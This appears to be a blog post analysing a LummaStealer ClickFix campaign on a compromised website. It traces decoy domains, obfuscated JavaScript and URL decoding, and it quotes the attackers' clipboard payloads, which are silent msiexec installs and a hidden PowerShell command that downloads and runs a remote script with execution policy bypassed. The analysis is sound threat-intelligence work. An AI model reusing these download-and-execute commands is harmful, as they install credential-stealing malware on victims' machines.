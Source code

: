 ```yaml
---
layout: post
title:  "LummaStealer - ClickFix MSI Installer Payload from compromised website"
date:   2025-06-16 21:00:00 +1000
categories: malware analysis
---
```


<style>
  body { font-size: 13px; }
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview

Full malware analysis on LummaStealer on a compromised website. This one took me some time as the malware is super impressive.

LummaStealer has lots of different variants. Therefore, malware analysis found online varies significantly. A compromised website I've been monitoring that has pushed three different samples of LummaStealer to it's victims in the past week. Furthermore, each time you query the stage one domain the network IOCs change. So, it's super neat. One cool pickup that does seem consistent is. If your host in running in Russian, the malware terminates. Make of that what you like.

### LummaStealer Malware Analysis (27th July 2025)

I've booted up my Windows 10 VM so we can whack this through and see what happens.

Here is the initial ClickFix prompt on load of the website. First, lets see how this got here? Where from? I've checked the Network tab in dev tools and found two suspicious domains that my browser has received HTTP requests from as a result of visiting this website
- api[.]brainbotfilebeatsave[.]com
- fullporner[.]com

![Stage 1](/images/cloudflare_stage1.PNG)
![Stage 2](/images/cloudflare_stage2.PNG)

We can see we sent a GET request to brainbot and recieved some JS as a response. The IP of brainbot is 104.21.48.1. Which is a CloudFlare proxy IP. Side note but an important one - adversaries seem to use cloudflare IPs to mask the IPs of their webservers quite frequently. Given that this attack uses a cloudflare clickfix prompt its more believable for level 0 soc analysts triaging this alert. 

![First GET Request to Brainbot](/images/get_brainbot.PNG)

Secondly we can see a GET request fullporner[.]com directly after sending a GET request to brainbot. 

![First GET Request to FullPorner](/images/fullporner_referral.PNG)

Let's inspect the script brainbot sent to us after our GET request.

First up we can see functions for browser fingerprinting and IP checking. Actually, what's really cool is the .js makes you query IP config sites yourself! 

![IP query](/images/ip_query.PNG)

Now we have the .html, .css and a bit of .js that displays the fake verification page and captures the results. 

![Cloudflare Clickfix](/images/cloudflare_html.PNG)

At the start of the .html with have an iFrame to fullporner[.]com but it doesn't look like it does anything? Now I'm almost certain this for some sort of decoy. I thought maybe brainbot was retrieving suspicious stuff from fullporner[.]com but nope. I was wrong. I guess if a SOC analyst looks at this alert they might think it's some dodgy porn page, rather than a LummaStealer loader. I'm not too sure, this is hilarious.

![iFrame](/images/full_porner.PNG)

Ok now lets get into the good stuff. 

![sjsh function](/images/sjsh_malicious_function.PNG)

We can see the function (sjsh) sends a GET request to an unknown domain. When loaded, it copies the constant 'command' to the users clipboard. Now the idiots have commented out earlier payloads. So we can infact see four different payloads! Interesting there is both a powershell and multiple msiexec payloads. This goes back to my comment earlier, there is so many different payloads for Lumma. Anyway, lets have a look at what some of the flags mean in these payload commands. 
1. ```const command = `msiexec /qn /i ${gotourl};```
- (/i) = tells msiexec to install the following package
- (/qn) = quiet mode with no UI for install
2. ```//const command = `msiexec KLSK=1101 /package ${gotourl} /promptrestart LAPBO=189 /quiet NIANS=299;```
3. ```const command = `msiexec SKSIA=1401 /package ${gotourl} /promptrestart LAPBOS=119 /passive NIANS=299;```
- (/package) = specifies .msi to install (same as /i)
- (/promptrestart) = restarts prompt at end if needed
- (/quiet) = quiet mode install
- KLSK, LAPBO, NIANS. These aren't msiexec flags. They could potentially define custom properties in the .msi file.
4. ```//const command = `powershell -w h -c "$f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1';curl ${gotourl} -o $f;powershell -w h -ep Bypass -f $f"`;```
- (-wh h) = WindowStyle and hidden
- (-c) = command
- ($f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1') = Creates random .ps1 script in Temp directory
- (curl ${gotourl} -o $f) = Downloads file from URL
- (-ep Bypass) = disables execution policy
- (-f) = runs file

Now we can see the payload, but no domains. So lets check out how 'gotourl' is calculated because I reckon it'll give us the domain. It looks heavily obfuscated. Here is a snippet of the .js of it. Here is a step by step breakdown of it.
1. Function takes the 'jsh' value when the function is called
2. Sends a GET request to /?jsc=<jsh>&f=<f>&t=<rt>
3. If the request is successful and a 200 is returned. The function waits for xhr.onload to complete
- ```let gotourl = hex2a(strrev(atob(hex2a(strrev(atob(xhr.response))))))```
- B64 decodes raw response (atob(xhr.response))
- Reverses the string (strrev(atob_returned_value))
- Converts string to ASCII (hex2a(strrev_returned_value))
- Now repeat again! Because there are 6 layers!
4. Now we have our domain ```window.gotourl = URL```

So now we know how this works. Lets try grab this domain. After clicking the tick box, I send a GET request to brainbot with the jsc flag. This contains all the details brainbot needs to shoot me back a domain.

![encoded jsc](/images/jsc_obfuscate.PNG)

Now this is what brainbot returned. Also side note you can see the requests to the IP check domains on the side as well.

![brainbot base64 response](/images/brainbot_response.PNG)

Lastly, lets deobfuscate. My friend ChatGPT will assist here.

![gospel output](/images/payload_url.PNG)

Plot twist! You have got to be joking. So essentially what this means is. LummaStealer is getting it's payloads from FullPorner. Lets check out this .php page and see what its got.

![403 fullporner](/images/fullporner_result.PNG)

No result. Strange.

When I go to paste the command in run I get the domain 'veriqloudx' not 'fullporner'. Anyway, veriq was created two days ago. Pretty neat, good rep on VT. Nice.
![VT Veriqloudx](/images/veriq_rep.PNG)

